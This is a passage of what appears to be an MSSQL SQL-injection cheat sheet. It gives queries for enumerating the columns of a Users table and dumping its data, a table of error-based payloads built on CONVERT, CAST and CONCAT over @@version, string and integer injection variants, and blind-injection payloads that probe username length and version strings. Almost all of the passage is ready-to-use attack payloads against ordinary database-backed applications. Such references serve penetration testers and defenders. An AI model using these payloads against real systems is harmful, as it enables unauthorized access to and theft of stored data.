 * Extract columns for the table Users

    ```sql
    $ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
    [*] UserId
    [*] UserName
    ```

* Finally extract the data

    ```sql
    SELECT  UserId, UserName from Users
    ```

## MSSQL Error Based

| Name         | Payload         |
| ------------ | --------------- |
| CONVERT      | `AND 1337=CONVERT(INT,(SELECT '~'+(SELECT @@version)+'~')) -- -` |
| IN           | `AND 1337 IN (SELECT ('~'+(SELECT @@version)+'~')) -- -` |
| EQUAL        | `AND 1337=CONCAT('~',(SELECT @@version),'~') -- -` |
| CAST         | `CAST((SELECT @@version) AS INT)` |

* For integer inputs

    ```sql
    convert(int,@@version)
    cast((SELECT @@version) as int)
    ```

* For string inputs

    ```sql
    ' + convert(int,@@version) + '
    ' + cast((SELECT @@version) as int) + '
    ```

## MSSQL Blind Based

```sql
AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -
```

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'
WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

### MSSQL Blind With Substring Equivalent

| Function    | Example                                         |
| ----------- | ----------------------------------------------- |
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`        |
